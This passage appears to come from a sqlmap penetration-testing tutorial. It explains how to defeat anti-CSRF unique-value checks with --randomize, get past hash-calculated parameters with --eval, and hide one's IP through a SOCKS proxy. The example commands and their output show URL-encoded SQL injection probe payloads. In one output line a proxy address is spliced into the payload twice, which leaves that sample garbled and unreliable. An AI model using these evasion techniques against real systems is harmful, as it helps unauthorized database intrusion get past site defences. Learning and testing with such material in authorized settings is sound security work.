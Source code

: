 * * *

## Unique Value Bypass

In some cases, the web application may only require unique values to be provided inside predefined parameters. Such a mechanism is similar to the anti-CSRF technique described above, except that there is no need to parse the web page content. So, by simply ensuring that each request has a unique value for a predefined parameter, the web application can easily prevent CSRF attempts while at the same time averting some of the automation tools. For this, the option `--randomize` should be used, pointing to the parameter name containing a value which should be randomized before being sent:

```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185

```

* * *

## Calculated Parameter Bypass

Another similar mechanism is where a web application expects a proper parameter value to be calculated based on some other parameter value(s). Most often, one parameter value has to contain the message digest (e.g. `h=MD5(id)`) of another one. To bypass this, the option `--eval` should be used, where a valid Python code is being evaluated just before the request is being sent to the target:

```shell
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc

```

* * *

## IP Address Concealing

In case we want to conceal our IP address, or if a certain web application has a protection mechanism that blacklists our current IP address, we can try to use a proxy or the anonymity network Tor. A proxy can be set with the option `--proxy` (e.g. `--proxy="socks4://177.39.187.70:33283"`), where we should add a working proxy.
